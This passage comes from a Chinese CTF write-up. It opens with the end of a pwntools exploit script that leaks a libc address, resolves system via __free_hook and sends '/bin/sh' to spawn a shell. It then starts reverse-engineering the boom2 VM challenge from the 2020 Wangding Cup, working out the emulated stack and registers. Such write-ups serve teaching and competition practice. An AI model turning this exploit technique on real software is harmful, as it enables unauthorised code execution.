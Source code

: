 ```python
ru("R3: ")
high = int(ru('\n').strip(), 16)
free_hook = (high<<32)+low

libc.address = free_hook - libc.sym['__free_hook']
system = libc.sym['system']

ru("HOW DO YOU FEEL AT OVM?\n")
sl(b'/bin/sh\x00'+p64(system))

ia()
```



### 网鼎杯2020 boom2

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1glqo9px384j321m04g755.jpg)

ida打开

![](https://tva1.sinaimg.cn/large/0081Kckwgy1glqoc570gyj30u03v47wh.jpg)

想起了比赛当时还不知道啥是VMpwn，看到这么多while直接关掉了

好好分析一波

```c
v3 = (signed __int64 *)malloc(0x40000uLL);
buf = (char *)malloc(0x40000uLL);
```

申请两个超大堆块

后面要输入opcode到buf，所以这里的buf应该是模拟.text，根据后面的程序逻辑可以判断v39应该是判断opcode长度的，而v7则是类似ip寄存器的变量，v8用于存储指令的机器码

而这些神奇的操作

![](https://tva1.sinaimg.cn/large/0081Kckwgy1glqoxhb7h8j30h40e8gm6.jpg)

先`v3+0x8000`然后每次赋值后都执行一次`--v3`，很容易联想到一种特殊的结构——栈

猜测这里是对模拟的stack进行初始化，而v3和v36应该是模拟类似sp的指针，v37则是模拟类似bp的指针，并且sp指针是指向栈顶元素而不是栈顶元素的下一位的，类似于ARM中的fd栈

所以上面这段代码大致可以翻译为

```
_sp += 0x8000
_bp = _sp
push 0x1e
push 0xd
v4 = _sp
push v5-1
push v6+8
push v4
v39 = 0LL
```
